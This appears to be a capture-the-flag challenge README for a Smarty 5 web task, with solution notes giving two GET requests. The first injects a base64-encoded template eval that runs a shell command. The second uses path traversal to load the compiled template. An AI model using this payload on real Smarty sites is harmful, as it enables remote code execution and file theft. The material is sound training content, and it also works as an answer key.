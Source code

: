 # untitled-smarty-challenge
**Category:** Web
**Difficulty:** Medium
**Author:** downgrade

## Description

We're using Smarty 5, with open\_basedir, AND we don't pass user input directly into a template, *surely* this is secure. Oh wait...

## Distribution

handout dir

## deployment notes

!! rce challenge, must be instanced by klodd pls!!

## solution notes

`GET /?page={include+file="eval:base64:e1N5bWZvbnlcQ29tcG9uZW50XFByb2Nlc3NcUHJvY2Vzczo6ZnJvbVNoZWxsQ29tbWFuZGxpbmUoImNhdCAvZmxhZyogPj4gaW5kZXgucGhwIiktPnJ1bigpfQ=="}/../home`
`GET /?page=../templates_c/f5fb5be85efe77d883dab7b400f78b1997e42bc1_0.file_home.php`

